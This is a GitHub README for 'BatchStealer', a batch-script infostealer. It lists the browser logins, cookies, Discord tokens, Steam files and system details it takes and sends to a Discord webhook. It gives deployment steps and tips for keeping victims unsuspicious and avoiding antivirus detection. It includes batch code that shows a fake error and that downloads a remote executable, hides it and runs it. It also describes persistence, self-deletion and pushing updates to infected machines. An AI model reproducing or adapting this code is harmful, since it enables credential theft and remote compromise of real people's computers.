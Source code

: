 # BatchStealer | [BatchStealer Example](https://github.com/Takaovi/BatchStealer-Example)

## [Get The Automatic Builder](https://github.com/Takaovi/BSBuilder) ❤️

### 📜 A batch script for taking things and sending them to a webhook 

3.4.2021 < FUD [(Virustotal)](https://www.virustotal.com/gui/file/6dfc563da383268f927fd90834afe1f2b5757933ea7527029c94f5aa6ab08c0d/detection)

![Made with love in Finland](https://madewithlove.now.sh/fi?heart=true&colorB=%23387fdc&template=plastic)

# Screenshots

 <details>
  <summary>Discord Capture Example</summary>
 
  <p align="center">
  <img src="https://i.imgur.com/8tmguuS.jpg">
  </p>
  
  *Example report, not a real user. Firefox has no files as it wasn't installed on the machine.*
</details>

# How to use

### ⚠️ Windows 10 build 17063, or later (*cURL* is included)

1. Change the webhook to yours.
2. Remove the fail-safes. ("goto xxx")
3. Run the batch file.

### ❌ Get rid of the comments 📝
* Do a regex search on notepad++, match `^::.*\n` and replace with nothing.

### ⛔ Avoid
* Just changing the webhook and doing nothing else. 
  * If the batch file does nothing the user will open it to see what's wrong.

# Features

### 💉 Steals

*Almost everything is encrypted, I haven't had the patience to do that on a batch file*

 <details>
  <summary>Full system information</summary>
 
   * OS Name & Version
   * Product ID
   * System Manufacturer
   * Processor(s)
   * BIOS Version
   * Time Zone
   * Total Physical Memory
   * Network Card(s)
   * And more...
</details>
<details>
  <summary>Chrome</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Opera</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Vivaldi</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Firefox</summary>
 
  * Logins
  * key3
  * key4
  * Cookies (Plain text!)
</details>
<details>
  <summary>osu!</summary>
 
 * osu!.cfg
</details>
<details>
  <summary>Discord</summary>
 
  * File containing a Token
  * Other various files
</details>
<details>
  <summary>Steam</summary>
 
  * Logged in users (Username, email)
  * Hidden ssfn files
</details>
<details>
  <summary>Minecraft</summary>
 
* Launcher profiles and accounts
</details>
<details>
  <summary>Growtopia</summary>
 
  * Save.dat
</details>

# Other manually addable features

Skip run by Task Scheduler
```batch
if not "%~dp0"=="%vpath%\" (
:: Your code not to get recurred
)
```

Fake error message
```batch
set "vpath="
...

:: FAKE ERROR MESSAGE | REMOVE GOTO IF YOU WANT IT TO DISPLAY
:: ----------------------------------------------------------
goto skipfakeerror
if not "%~dp0"=="%vpath%\" (
start /min /b mshta vbscript:Execute("Msgbox(""Bodytext""+vbCrLf+vbCrLf+""Anotherbody""),16,""Titletext"":window.close")
)
:skipfakeerror

...
```

Download & run payload
```batch
set "vpath="
set "webhook="

cd %vpath%
...

:: PAYLOAD - REMOVE GOTO IF YOU WANT THE SCRIPT TO DOWNLOAD AND RUN A FILE SOMEWHERE
:: ---------------------------------------------------------------------------------
goto skipcustomdownload
	set "customdownloadurl=https://external.ext/file.exe"
        set "customfilename=c.exe"
	curl --silent --output /dev/null -i -H "Accept: application/json" -H "Content-Type:application/json" -X POST --data "{\"content\": \"```Downloading and starting a custom file from\n%customdownloadurl% to %vpath%\%customfilename%```\"}" %webhook%
	IF EXIST "%customfilename%" GOTO waitloop4
	curl --silent -L --fail "%customdownloadurl%" -o "%customfilename%"
	>NUL attrib "%vpath%\%customfilename%" +h
	:waitloop4
	IF EXIST "%customfilename%" GOTO waitloopend4
	timeout /t 5 /nobreak > NUL
	:waitloopend4
	2> NUL start "%customfilename%"
:skipcustomdownload

...
```

# 📑 Other features 

  * Delete itself after execution

  * Add itself to Task Scheduler (CMD window will be invisible when executed)
     * Will make files to `C:\ProgramData` by default. (Hidden)

  * Push updates to infected machine(s) **(Beta, expect bugs and crashes)**
    * Make sure to have a working batch file's source on the link, it will replace everything.
    * Ability to target specific users (Check username)
    
  * Take screenshot


### Included on the [Automatic Builder](https://github.com/Takaovi/BSBuilder)
  * Add garbage code (Confuse/Fill)

  * ~~Obfuscate~~ Not made yet.

# Todo
* DNS poisoning
  * Simple edit of the hosts file (Would require administrator)
* Other interesting stuff...

# 💡 Support

* If you want to support the project do a pull request.
  * The pull request could be a new steal etc.

# ㊙️ Obfuscation (Read carefully)
* You can try [this](https://github.com/SkyEmie/batch-obfuscator)
  * RECURRING DOES NOT WORK WITH THIS. (Script exits when it reaches it)
  * "START AS ADMINISTRATOR" WILL GENERATE A VISIBLE ERROR MESSAGE ON THE CMD BOX.

# Thanks

* [Screenshot-cmd (github)](https://github.com/chuntaro/screenshot-cmd)
# Legal

None of the authors, contributors, or anyone else connected with this open source project, in any way whatsoever, can be responsible for your use of the information or the application contained in or linked from this repository.

Under Section 107 of the Copyright Act 1976, allowance is made for "fair use" for purposes such as criticism, comment, news reporting, teaching, scholarship and research. Fair use is a use permitted by copyright statute that might otherwise be infringing. Non-profit, educational or personal use tips the balance in favor of fair use.

If you don't agree with any of our disclaimers above, do not read the code or download anything from our repository as you have no permission to read and explore our repository until you agree.
